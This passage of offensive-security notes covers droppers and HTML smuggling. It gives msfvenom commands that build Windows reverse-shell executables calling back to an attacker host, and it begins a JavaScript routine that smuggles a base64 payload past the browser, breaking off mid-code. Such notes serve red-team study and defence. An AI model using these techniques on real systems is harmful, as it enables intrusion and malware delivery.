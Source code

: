 # Droppers

Droppers are the first stage payload which on executing contact a C2 server for the rest of the payload. Droppers can be effectively used to deliver small sized payloads which can easily bypass Antivirus and their only function is to get on the system and contact the C2 for furthur instructions.

msfvenom can be used to create payloads and the metasploit's multi handler can easily handle both staged and non-staged payloads.

Example payload creation :-

    Non-Staged payload :
    sudo msfvenom -p windows/shell_reverse_tcp LHOST=\<ip> LPORT=\<port> -f exe -o shell.exe

    Staged Payload :
    sudo msfvenom -p windows/shell/reverse_tcp LHOST=\<ip> LPORT=\<port> -f exe -o shell.exe

Non-Staged payloads are much smaller in size, the only difference in command between the two is the forwardslash.

Netcat or msfconsole can be used as a listener.

&nbsp;

# HTML Smuggling

The HTML anchor tag can be used to automatically download a file onto the computer when a hyperlink is clicked.

    <html>
        <body>
            <a href="/msfstaged.exe" download="msfstaged.exe">DownloadMe</a>
        </body>
    </html>

This however requires user interaction and also the filename is seen, the browser will block off such downloads almost instantly.

Javascript can be used to automatically download the file in form of octet stream. The steps are :

1. Store the payload in form of base64
2. Convert the base64 to byte array and store this in a variable
3. Create a Blob of octet stream.
4. Create a URL File object of the blob using the URL.createObjectURL() to stimulate the file being on a webserver.
5. Now create an anchor tag with the display set to none.
6. Set the href of the anchor tag to the URL file object.
7. Give the filename using \<tagname>.download
8. Stimulate a click using the \<tagname>.click

Code :-

    <html>
        <body>
            <script>
                function base64ToArrayBuffer(base64)
                {
                    var binary_string = window.atob(base64);
                    var len = binary_string.length;
                    var bytes = new Uint8Array( len );
                    for (var i = 0; i < len; i++)
                    {
                        bytes[i] = binary_string.charCodeAt(i);
                    }
                    return bytes.buffer;
                }
